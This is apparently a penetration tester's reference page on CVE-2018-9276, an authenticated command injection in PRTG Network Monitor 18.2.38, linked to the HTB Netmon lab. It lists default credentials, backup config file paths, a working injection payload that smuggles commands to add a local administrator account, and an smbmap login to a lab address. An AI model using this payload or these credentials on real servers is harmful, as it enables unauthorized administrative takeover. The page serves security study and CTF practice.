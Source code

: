 ```yaml
---
description: PRTG Network Monitor 18.2.38 - Remote Code Execution
---
```


# CVE-2018-9276

<mark style="color:yellow;">**PRTG Network Monitor 18.2.38**</mark> <mark style="color:purple;">**-**</mark>**&#x20;&#x20;**<mark style="color:red;">**Remote Code Execution**</mark>**&#x20;**<mark style="color:purple;">**-**</mark> <mark style="color:blue;">**Windows**</mark>

<mark style="color:purple;">**Vulnerability:**</mark>**&#x20;(**<mark style="color:yellow;">**Authenticated**</mark>**)** <mark style="color:purple;">PRTG System Administrator web console with administrative privileges can exploit an OS command injection vulnerability (both on the server and on devices) by sending malformed parameters in sensor or notification management scenarios.</mark>

<mark style="color:yellow;">PRTG Network Monitor</mark> <mark style="color:purple;">-</mark> <mark style="color:red;">Default credentials</mark> <mark style="color:purple;">--></mark> <mark style="color:red;">`prtgadmin/prtgadmin`</mark>

<mark style="color:purple;">If FTP open In</mark> <mark style="color:yellow;">`\ProgramData\Paessler\PRTG Network Monitor`</mark><mark style="color:purple;">, I’ll find information about the</mark> <mark style="color:yellow;">PRTG Network Monitor application</mark><mark style="color:purple;">:</mark>

```
Configuration Auto-Backups
PRTG Configuration.dat
PRTG Configuration.old.bak

```

<mark style="color:purple;">Command Injection from web console:</mark>

```
#Create a user and give it admin priv
test.txt;net user anon p3nT3st! /add;net localgroup administrators anon /add
#login as the new user
smbmap -H 10.10.10.152 -u anon -p "p3nT3st!"
```

<mark style="color:purple;">**Score:**</mark>**&#x20;**<mark style="color:blue;">**CVSS v2.0**</mark><mark style="color:purple;">**:**</mark>**&#x20;**<mark style="color:yellow;">**`9`**</mark>**&#x20;**<mark style="color:purple;">**//**</mark>**&#x20;**<mark style="color:blue;">**CVSS v3.x**</mark><mark style="color:purple;">**:**</mark>**&#x20;**<mark style="color:yellow;">**`7.2`**</mark>

<mark style="color:purple;">**Shows on:**</mark>&#x20;

* <mark style="color:green;">**HTB Netmon**</mark>

<mark style="color:purple;">**POC:**</mark>

{% embed url="https://codewatch.org/2018/06/25/prtg-18-2-39-command-injection-vulnerability/" %}

#### <mark style="color:purple;">**POC: Python / Msfvenom**</mark>

{% embed url="https://github.com/A1vinSmith/CVE-2018-9276" %}

<mark style="color:purple;">**POC:**</mark>

{% embed url="https://www.exploit-db.com/exploits/46527" %}

<mark style="color:purple;">**Resources:**</mark>

{% embed url="https://vuldb.com/?id.120169=" %}

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2018-9276" %}

{% embed url="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9276" %}
